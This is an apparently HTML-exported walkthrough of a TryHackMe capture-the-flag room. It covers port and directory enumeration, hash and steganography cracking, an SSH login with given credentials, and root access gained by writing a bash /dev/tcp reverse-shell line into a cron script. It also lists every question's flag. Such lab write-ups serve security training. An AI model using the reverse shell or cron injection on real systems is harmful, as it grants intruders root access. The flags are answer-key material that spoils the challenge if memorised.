<html>

<head>

</head>

<b>Run nmap scan for port and service scanning</b>

<b>Nmap -p- 10.10.8.182</b>

<b>Nmap -sCV 10.10.8.182</b>

<b></b>

<b></b>

<b>&nbsp;</b>

<b>Hit on the web browser with the highest port , and got
the service is Apache</b>

<b></b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>THM questions: </b><b>Enumeration through Nmap</b>

<b></b>

<b>Download the given file and sort it </b>

<b></b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>For Question 1: </b>

<b>Using gobuster to find out the directory List</b>

<b></b>

<b>&nbsp;</b>

<b>Using gobuster to find out the directory under the hidden
directory</b>

<b></b>

<b>&nbsp;</b>

<b>View the page source of recently found page and using
cyberchef to find out the flag 1</b>

<b></b>

<b></b>

<b> Flag 1: flag{f1rs7_fl4g}</b>



<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>For question 2: </b>

<b>Visit </b><a href="http://10.10.132.149:65524/robots.txt"><b>http://10.10.132.149:65524/robots.txt</b></a><b>
and found a hash value</b>

<b></b>

<b>a18672860d0510e5ab6699730763b250</b>

<b>Now go to this site </b><a href="https://md5hashing.net/"><b>https://md5hashing.net/</b></a><b>
dycrypt the hash value </b>

<b></b>

<b>flag{1m_s3c0nd_fl4g}</b>



<b>For question 3:</b>

<b>On the 10.10.132.149:65524 page view source found the
flag 3</b>

<b></b>

<pre><b>Flag 3: lag{9fdafbd64c47471a8f54cd3fc64cd312}</b></pre><pre><b>&nbsp;</b></pre><pre></pre>

<b>&nbsp;</b>

<b>For question 4:</b>

<b>On the 10.10.132.149:65524 page view source found the
hidden tag and a hash starting with ba….. </b>

<b></b>

<b>Here mention ba.. value so we try all base decoder. Using
cyberchef we can crack the base62 value </b>

<b></b>

<b>10.10.132.149:65524/n0th1ng3ls3m4tt3r</b>



<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>For question 5:</b>

<b>View source of  10.10.132.149:65524/n0th1ng3ls3m4tt3r/ 
and get a hash value</b>

<b></b>

<b>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</b>

<b></b>

<b>Using john tool try to crack the password </b>

<b></b>



<b>&nbsp;</b>

<b>For Question 6:</b>

<b>View source of  10.10.132.149:65524/n0th1ng3ls3m4tt3r/ 
and Download the image </b>

<b></b>

<b>Try to get information about the image by steghide tool
but need a passphrease</b>

<b></b>

<b>Crack the image by stegcracer tool using the given
password file, </b>

<b></b>

<b>and get the extract information in to file called
easypeasy.jpeg.out</b>

<b></b>

<b>Convert it from binary to decimal</b>

<b></b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>Try to connect via SSH with port 6498</b>

<b>Username: boring</b>

<b>Password: iconvertedmypasswordtobinary</b>

<b>&nbsp;</b>

<b></b>

<b>&nbsp;</b>



<b>For Question 7: </b>

<b>Found a file called user.txt but cant get the flag , It
seems the encrypted. There is a hinted mentioning Rotated.</b>

<b></b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>&nbsp;</b>

<b>Decoded it with cyberchef   root13 decoder 
flag{n0wits33msn0rm4l}</b>

<b></b>

<b>For Qustion 8:</b>

<b>As mention on the room task there must be a cronjob
running</b>

<b>Found a cronjob is running  named .mysecrectcronjob.sh</b>

<b></b>

<b>Open this file with editor and add this line for access a
reverse shell.</b>

<b>bash
-i &gt;&amp; /dev/tcp/10.10.8.87/4444 0&gt;&amp;1</b>

<b></b>

<b>Run listening port on my local machine and access that machine
as root user</b>

<b></b>

<b>&nbsp;</b>

<b>Then fond the hidden file .root.txt at the root user home
directory and there found the last flag</b>

<b></b>

<b>flag{63a9f0ea7bb98050796b649e85481845}</b>



<b>&nbsp;</b>

<b>&nbsp;</b>

</html>
